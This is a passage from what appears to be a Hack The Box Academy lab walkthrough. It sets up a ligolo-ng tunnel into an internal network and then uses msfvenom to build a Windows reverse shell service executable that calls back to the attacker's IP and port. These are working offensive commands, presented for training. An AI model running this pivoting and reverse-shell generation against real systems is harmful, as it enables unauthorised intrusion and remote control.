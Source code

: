 ```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ cat Desktop/my_credentials.txt | grep Username
Username: htb-ac-8414

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip tuntap add user htb-ac-8414 mode tun ligolo

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip link set ligolo up

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ sudo ip route add 172.20.0.0/24 dev ligolo
```

Students will return to `ligolo`'s proxy console, use the `session` command, select the agent, and initiate the tunnel (they need to press `Enter` after session):

Code: shell

```shell
session
start
```

```shell-session
INFO[6389] Agent joined.                                 name="INLANEFREIGHT\\helen@SRV01" remote="10.129.229.244:49730"
ligolo-ng » session 
? Specify a session : 2 - #2 - INLANEFREIGHT\helen@SRV01 - 10.129.229.244:49730

[Agent : INLANEFREIGHT\helen@SRV01] » start
INFO[6744] Starting tunnel to INLANEFREIGHT\helen@SRV0
```

Students will proceed to generate a Windows reverse shell using `msfvenom` and the `windows/x64_shell_reverse_tcp` payload:

Code: shell

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=PWNIP LPORT=PWNPO -f exe-service -o service-shell.exe
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-yvuptgywyj]─[~]
└──╼ [★]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.221 LPORT=9001 -f exe-service -o service-shell.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: service-shell.exe
```
